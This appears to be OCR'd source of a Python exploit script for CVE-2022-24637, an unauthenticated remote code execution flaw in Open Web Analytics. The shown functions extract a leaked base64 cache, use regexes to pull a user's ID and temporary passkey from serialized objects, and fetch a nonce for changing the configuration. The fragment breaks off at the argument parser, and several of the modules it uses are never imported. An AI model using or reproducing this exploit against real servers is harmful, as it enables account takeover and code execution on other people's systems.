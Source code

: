 ```
from termcolor import colored

def print_message(message, type):
   if type == 'SUCCESS':
      print('[' + colored('SUCCESS', 'green') +  '] ' + message)
   elif type == 'INFO':
      print('[' + colored('INFO', 'blue') +  '] ' + message)
   elif type == 'WARNING':
      print('[' + colored('WARNING', 'yellow') +  '] ' + message)
   elif type == 'ALERT':
      print('[' + colored('ALERT', 'yellow') +  '] ' + message)
   elif type == 'ERROR':
      print('[' + colored('ERROR', 'red') +  '] ' + message)

def get_normalized_url(url):
   if url[-1] != '/':
      url += '/'
   if url[0:7].lower() != 'http://' and url[0:8].lower() != 'https://':
      url = "http://" + url
   return url

def get_proxy_protocol(url):
   if url[0:8].lower() == 'https://':
      return 'https'
   return 'http'

def get_random_string(length):
   chars = string.ascii_letters + string.digits
   return ''.join(random.choice(chars) for i in range(length))

def get_cache_content(cache_raw):
   regex_cache_base64 = r'\*(\w*)\*'
   regex_result = re.search(regex_cache_base64, cache_raw)
   if not regex_result:
      print_message('The provided URL does not appear to be vulnerable ...', "ERROR")
      exit()
   else:
      cache_base64 = regex_result.group(1)
   return base64.b64decode(cache_base64).decode("ascii")

def get_cache_username(cache):
   regex_cache_username = r'"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:5:"(\w*)"'
   return re.search(regex_cache_username, cache).group(1)

def get_cache_temppass(cache):
   regex_cache_temppass = r'"temp_passkey";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:32:"(\w*)"'
   return re.search(regex_cache_temppass, cache).group(1)

def get_update_nonce(url):
   try:
      update_nonce_request = session.get(url, proxies=proxies)
      regex_update_nonce = r'owa_nonce" value="(\w*)"'
      update_nonce = re.search(regex_update_nonce, update_nonce_request.text).group(1)
   except Exception as e:
      print_message('An error occurred when attempting to update config!', "ERROR")
      print(e)
      exit()
   else:
      return update_nonce

parser = argparse.ArgumentParser(description='Exploit for CVE-2022-24637: Unauthenticated RCE in Open Web Analytics (OWA)')
```